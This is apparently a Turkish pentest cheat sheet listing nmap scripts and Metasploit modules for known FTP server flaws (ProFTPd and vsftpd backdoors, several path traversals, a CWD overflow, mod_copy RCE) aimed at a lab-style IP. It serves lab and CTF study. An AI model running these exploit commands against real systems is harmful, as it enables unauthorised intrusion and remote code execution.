 ![https://i.ibb.co/fCJtJZj/image.png](https://i.ibb.co/fCJtJZj/image.png)

## Belirli Zafiyetler İçin Kullanılan Exploits, PoCs ve Scriptler

```bash
# ProFTPd-1.3.3c - Backdoor Command Execution [OSVDB-69562]
nmap -p 21 --script=ftp-proftpd-backdoor 10.10.11.101

# ProFTPd 1.3.2rc3/1.3.3b - Execute Arbitrary Code - [CVE-2010-4221]
nmap -p 21 --script=ftp-vuln-cve2010-4221 10.10.11.101

# vsftpd 2.3.4 - Backdoor Command Execution - [CVE-2011-2523]
nmap -p 21--script=ftp-vsftpd-backdoor 10.10.11.101

# BisonFTP 3.5 - Path Traversal - [CVE-2015-7602]
msf6 > use auxiliary/scanner/ftp/bison_ftp_traversal

# Titan FTP XCRC - Path Traversal - [CVE-2010-2426]
msf6 > use auxiliary/scanner/ftp/titanftp_xcrc_traversal

# PCMan FTP Server 2.0.7 - Path Traversal - [2015-7601]
msf6 > use auxiliary/scanner/ftp/pcman_ftp_traversal

# Easy File Sharing FTP Server <= 3.6 – Path Traversal - [CVE-2017-6510]
msf > use auxiliary/scanner/ftp/easy_file_sharing_ftp

# Konica Minolta FTP Utility 1.0 - Path Traversal - [CVE-2015-7603]
msf6 > use auxiliary/scanner/ftp/konica_ftp_traversal

# Konica Minolta FTP Utility 1.0 - CWD Command Overflow - [CVE-2015-7768]
msf6 > use exploit/windows/ftp/kmftp_utility_cwd

# vsftpd 2.3.4 - Backdoor Command Execution - [CVE-2011-2523]
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor

# ProFTPd-1.3.3c - Backdoor Command Execution [OSVDB-69562]
msf6 > use exploit/unix/ftp/proftpd_133c_backdoor

# ProFTPd 1.3.2rc3/1.3.3b - Execute Arbitrary Code - [CVE-2010-4221]
msf6 > use exploit/linux/ftp/proftp_telnet_iac

# ProFTPd 1.3.5 - (mod_copy) RCE - [CVE-2015-3306]
msf6 > use exploit/unix/ftp/proftpd_modcopy_exec
```
